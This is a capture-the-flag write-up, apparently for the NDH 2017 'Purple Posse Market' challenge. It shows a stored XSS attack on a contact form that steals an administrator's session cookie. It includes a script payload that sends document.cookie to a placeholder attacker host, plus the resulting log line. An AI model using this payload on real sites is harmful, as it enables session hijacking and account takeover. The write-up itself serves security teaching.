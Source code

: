 # Purple Posse Market
[![Description](https://raw.githubusercontent.com/hackbbs/writeups/master/ndh-prequalz-2k17/img/desc.png)](https://raw.githubusercontent.com/hackbbs/writeups/master/ndh-prequalz-2k17/img/desc.png) 

Ok, let's connect to this black market..

[![Home page](https://raw.githubusercontent.com/hackbbs/writeups/master/ndh-prequalz-2k17/img/home.png)](https://raw.githubusercontent.com/hackbbs/writeups/master/ndh-prequalz-2k17/img/home.png) 

The website contains 4 pages where we can view latest arrivals, list of products, website information (about) and contact the Administrator.

The `contact` page caught my attention because we can see that the Administrator is online:

[![Contact page](https://raw.githubusercontent.com/hackbbs/writeups/master/ndh-prequalz-2k17/img/contact.png)](https://raw.githubusercontent.com/hackbbs/writeups/master/ndh-prequalz-2k17/img/contact.png) 

Hmm.. which kind of data can we send to him? First we check if `html` tags are interpreted, give a try with the `img` tag pointing to my webserver:
```
<img src="http://<attacker-host>" />
```

Well, after few seconds, webserver logs said:
```
xxx.xxx.xxx.12 - - [01/Apr/2017:02:28:19 +0200] "GET / HTTP/1.1" 200 483 "http://localhost:3001/admin/messages/86/" "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1"
```

Cool, now try with the `script` tag (thx Azertinv):
```
<script>
new Image().src = "http://<attacker-host>/"+document.cookie;
</script>
```

And..
```
xxx.xxx.xxx.12 - - [01/Apr/2017:02:38:17 +0200] "GET /connect.sid=s%3AI8a4ZhWLggdUBZeFbhH04q4oaW34o0TY.jvRNnsPhTr2%2FnOq4GcUwXYD1wLWlaxLHh%2BvjHM5c3uM HTTP/1.1" 404 501 "http://localhost:3001/admin/messages/94/" "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1"
```

We set our cookie with the stolen admin cookie and we have full access on the website. Informations required by the government we are working can be found in the administator profile page:

[![Admin profile](https://raw.githubusercontent.com/hackbbs/writeups/master/ndh-prequalz-2k17/img/admin-profile.png)](https://raw.githubusercontent.com/hackbbs/writeups/master/ndh-prequalz-2k17/img/admin-profile.png) 
